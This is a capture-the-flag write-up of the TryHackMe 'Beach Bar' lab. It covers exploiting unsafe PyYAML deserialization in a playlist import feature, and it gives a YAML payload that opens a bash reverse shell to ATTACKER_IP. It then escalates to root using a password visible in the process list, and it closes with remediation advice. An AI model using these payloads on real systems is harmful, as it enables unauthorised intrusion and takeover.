# 5 - Beach Bar

**Platform:** TryHackMe | **Category:** Boot2Root | **Difficulty:** Easy

---

## 1. Introduction

Beach Bar is a Boot2Root challenge where the objective is to compromise a web application, obtain a user shell, retrieve the user flag, and then escalate privileges to `root`.

* Find the user flag
* Find the root flag

---

# 2. Finding the Login Credentials

I started by inspecting the source code of the `/login` page.



Inside the source, I found a note containing what appeared to be valid login credentials.



I used those credentials to log into the application.

After authentication, I was able to access the application's dashboard and discovered an **Import Playlist** functionality.



---

# 3. Exploring the YAML Import Functionality

The application had an `/import` page containing a YAML input field.



Before attempting to exploit it, I checked the **Export** functionality to understand the expected YAML format.

The application provided a sample playlist:



This gave me the structure expected by the application.

Since the application was accepting YAML input, I started investigating how it parsed the submitted data.

---

# 4. Identifying Unsafe YAML Deserialization

I researched **Python YAML deserialization** and found that PyYAML can interpret special tags such as:

```text
!!python/object/apply
```

and:

```text
!!python/object/new
```

This means the YAML isn't necessarily treated as simple data.

Instead, specially crafted YAML can cause Python objects/functions to be instantiated during deserialization.

---

# 5. Testing the YAML Parser

Before attempting command execution, I tested whether Python-specific YAML objects were actually being processed.

I modified the `name` field:

```yaml
playlist:
  name: !!python/object/apply:builtins.range [1, 10, 1]
  vibe: golden hour
  tracks: []
```

The application returned:



This confirmed that the application was actually constructing Python objects from the submitted YAML.

Therefore, the YAML parser was vulnerable to unsafe deserialization.

---

# 6. Getting Remote Code Execution

Since the YAML parser allowed Python object construction, I investigated whether it could be used to execute an operating-system command.

I tested a Python YAML payload using `os.system`:

```yaml
playlist:
  name: !!python/object/new:os.system ['bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"']
  tracks: []
```

Replace the `ATTACKER_IP` with your VPN/TUN interface IP.

On my attacking machine, I started a Netcat listener:

```bash
nc -lvnp 4444
```



I then submitted the malicious YAML through the application's import functionality.

The server processed the YAML and executed the command, resulting in a reverse shell back to my machine.

---

# 7. Getting the User Flag

After receiving the shell, I verified my access and searched for the user flag:

```bash
find / -type f -name user.txt 2>/dev/null
```

I then read the discovered file:

```bash
cat /path/to/user.txt
```



This gave me the **user flag**.

At this point, the initial web exploitation was complete.

Before proceeding, I would suggest to upgrade the netcat shell to a stable python shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---

# 8. Enumerating the Application After Getting the Shell

After obtaining the user shell, I continued enumerating the machine instead of immediately searching for random privilege-escalation exploits.

The application was located under:

```text
/opt/beach-bar/
```

I inspected the application files and found:

```text
/opt/beach-bar/webapp/app.py
```

The source code confirmed the vulnerable YAML processing:

```python
yaml.load(content, Loader=yaml.Loader)
```

I also noticed that the Flask application contained a hard-coded secret key.

Although this wasn't the path I ultimately used for root, it was another example of sensitive security configuration being exposed in application source code.

---

# 9. Searching for Privilege Escalation Opportunities

I performed some standard Linux privilege-escalation enumeration.

For example, I checked for SUID binaries:

```bash
find /opt/beach-bar -perm -4000 -type f 2>/dev/null
```

I also investigated other files and services belonging to the Beach Bar application.

During this enumeration, I found an interesting Python script:

```text
/opt/beach-bar/jukeboxd/jukeboxd.py
```

---

# 10. Analyzing `jukeboxd.py`

The script was a simple jukebox streaming service.

The interesting section was:

```python
def main():
    parser = argparse.ArgumentParser(
        description="Beach Bar jukebox streamer"
    )

    parser.add_argument(
        "--stream-pass",
        required=True,
        help="stream backend password"
    )

    parser.add_argument(
        "--bitrate",
        default="320k"
    )

    args = parser.parse_args()
```

The important discovery was:

```text
--stream-pass
```

The service required a password passed as a command-line argument.

This made me wonder whether the password might be visible in the process list while the service was running.

---

# 11. Enumerating Running Processes

I searched the running processes:

```bash
ps aux | grep -E 'jukebox|stream|python'
```

This revealed the following:

```text
root  610  0.0  0.2  20176  11688 ?  Ss  Aug09  0:00 \
/opt/beach-bar/venv/bin/python \
/opt/beach-bar/jukeboxd/jukeboxd.py \
--stream-pass password \
--bitrate 320k
```



Got a login password.

The jukebox service was running as:

```text
root
```

and the command line contained:

```text
--stream-pass password
```

The password was exposed directly through the process command line.

---

# 12. Root Password Use

I tested the discovered password and found that it was also being used as the **root account password**.

This turned the process argument disclosure into a direct privilege-escalation path.

The chain was:

```text
Root-owned jukebox service
          ↓
Password supplied as command-line argument
          ↓
Password visible through ps
          ↓
Password reused for root
          ↓
Root access
```

I authenticated as `root` using the recovered password.

---

# 13. Getting the Root Flag

After escalating privileges, I verified that I was root:

```bash
id
```

The output confirmed:

```text
uid=0(root)
```



I then accessed the root user's flag:

```bash
cat /root/root.txt
```



This returned the **root flag**, completing the challenge.

---

# 14. Complete Attack Chain

The complete exploitation path was:

```text
                    Beach Bar
                        │
                        ▼
                Inspect login page
                        │
                        ▼
                Find credentials
                        │
                        ▼
                  Login
                        │
                        ▼
               Import Playlist
                        │
                        ▼
             Inspect YAML format
                        │
                        ▼
          yaml.load(... Loader=yaml.Loader)
                        │
                        ▼
             Test Python objects
                        │
                        ▼
             Confirm deserialization
                        │
                        ▼
                Command execution
                        │
                        ▼
                 Reverse shell
                        │
                        ▼
                  User flag
                        │
                        ▼
              Enumerate the host
                        │
                        ▼
              Find jukeboxd.py
                        │
                        ▼
          Find --stream-pass argument
                        │
                        ▼
             Enumerate processes
                        │
                        ▼
        Root process exposes password
                        │
                        ▼
              Password reuse
                        │
                        ▼
                    root
                        │
                        ▼
                  Root flag
```

---

# 15. Vulnerabilities Identified

## 15.1 Unsafe YAML Deserialization

The application directly processed user-controlled YAML using:

```python
yaml.load(content, Loader=yaml.Loader)
```

This allowed Python-specific YAML tags to be interpreted and ultimately provided a path to command execution.

A safer approach would be to use:

```python
yaml.safe_load(content)
```

when arbitrary Python object deserialization is not required.

---

## 15.2 Hard-Coded Flask Secret

The Flask application also contained a hard-coded secret key:

```python
app.secret_key = "a-key"
```

Application secrets should not be hard-coded into publicly accessible source code.

A strong randomly generated secret should be stored securely outside the source code.

---

## 15.3 Sensitive Credential in Process Arguments

The jukebox service was started using:

```text
--stream-pass root-pass
```

Passing secrets through command-line arguments can expose them to local users through process enumeration.

A better approach would be to use a properly protected configuration or secret-management mechanism.

---

## 15.4 Password Reuse

The stream backend password was reused as the root account password.

This converted a relatively small information disclosure into complete system compromise.

Privileged accounts should always use unique credentials.

---

# 16. Important Commands

### Find the user flag

```bash
find / -type f -name user.txt 2>/dev/null
```

### Inspect application files

```bash
ls -la /opt/beach-bar/
```

### Search for SUID binaries

```bash
find /opt/beach-bar -perm -4000 -type f 2>/dev/null
```

### Enumerate processes

```bash
ps aux | grep -E 'jukebox|stream|python'
```

### Verify privileges

```bash
id
```

### Read the root flag

```bash
cat /root/root.txt
```

---

# 17. Lessons Learned

### 1. Inspect functionality before exploiting it

The Export page showed the expected YAML structure, which made it much easier to understand how the Import functionality worked.

### 2. Source code can reveal the vulnerability

Finding:

```python
yaml.load(content, Loader=yaml.Loader)
```

immediately pointed towards unsafe YAML deserialization.

### 3. Test vulnerabilities before attempting exploitation

The `range()` payload was useful because it confirmed that Python objects were actually being constructed before attempting command execution.

### 4. After getting a shell, enumerate the entire system

Getting the user flag was only the first stage.

The root escalation came from a completely different component: the jukebox service.

### 5. Always inspect processes

The most important privilege-escalation command was:

```bash
ps aux | grep -E 'jukebox|stream|python'
```

It revealed a root-owned service with its password directly in the command line.

### 6. Never reuse passwords

The final escalation was possible because the stream password was also the root password.

---

# Conclusion

Beach Bar was a good example of chaining multiple weaknesses together.

The initial compromise came from **unsafe YAML deserialization**, which allowed me to execute commands through the playlist import functionality and obtain a reverse shell.

After retrieving the user flag, I moved to local privilege escalation and discovered the `jukeboxd` service.

The service was running as `root` and accepted a `--stream-pass` argument. By inspecting the running process, I was able to recover the password from the command line.

That password was reused as the root account password, allowing me to escalate to `root` and retrieve the final flag.

The complete chain was:

```text
Login credentials
      ↓
Authenticated application
      ↓
Unsafe YAML deserialization
      ↓
Remote code execution
      ↓
Reverse shell
      ↓
User flag
      ↓
Local enumeration
      ↓
Jukebox service
      ↓
Password exposed in process list
      ↓
Password reuse
      ↓
Root
      ↓
Root flag
```
